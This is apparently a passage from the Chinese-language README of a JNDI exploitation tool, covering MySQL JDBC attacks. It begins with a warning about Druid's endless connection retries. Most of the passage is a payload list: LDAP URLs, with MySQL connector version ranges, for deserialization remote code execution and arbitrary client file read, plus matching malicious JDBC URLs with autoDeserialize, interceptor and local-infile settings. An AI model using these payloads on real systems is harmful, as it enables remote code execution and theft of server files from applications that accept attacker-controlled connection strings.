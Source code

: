 *因为 Alibaba Druid 的 DruidDataSourceFactory 并不支持配置 breakAfterAcquireFailure 和 connectionErrorRetryAttempts 参数, 在默认情况下, 如果 JDBC 连接失败, 则会在创建的新线程中陷入无限重试, 这可能会使得控制台死循环不断输出报错信息, 导致日志爆炸等问题, 非必要条件不建议使用. 参考: [https://github.com/alibaba/druid/issues/3772](https://github.com/alibaba/druid/issues/3772)*

### MySQL

#### MySQL JDBC 反序列化 RCE

```bash
# detectCustomCollations (5.1.19-5.1.48, 6.0.2-6.0.6)
ldap://127.0.0.1:1389/Factory/MySQL/Deserialize1/127.0.0.1/3306/root

# ServerStatusDiffInterceptor

# 5.1.11-5.1.48
ldap://127.0.0.1:1389/Factory/MySQL/Deserialize2/127.0.0.1/3306/root

# 6.0.2-6.0.6
ldap://127.0.0.1:1389/Factory/MySQL/Deserialize3/127.0.0.1/3306/root

# 8.0.7-8.0.19
ldap://127.0.0.1:1389/Factory/MySQL/Deserialize4/127.0.0.1/3306/root
```

JDBC URL (供参考)

```bash
# detectCustomCollations (5.1.19-5.1.48, 6.0.2-6.0.6)
jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=123

# ServerStatusDiffInterceptor

# 5.1.11-5.1.48
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=test

# 6.0.2-6.0.6
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=test

# 8.0.7-8.0.19
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=test
```

#### MySQL 客户端任意文件读取

```bash
# 全版本
ldap://127.0.0.1:1389/Factory/MySQL/FileRead/127.0.0.1/3306/root
```

JDBC URL (供参考)

```bash
# 全版本
jdbc:mysql://127.0.0.1:3306/test?allowLoadLocalInfile=true&allowUrlInLocalInfile=true&allowLoadLocalInfileInPath=/&maxAllowedPacket=655360
```
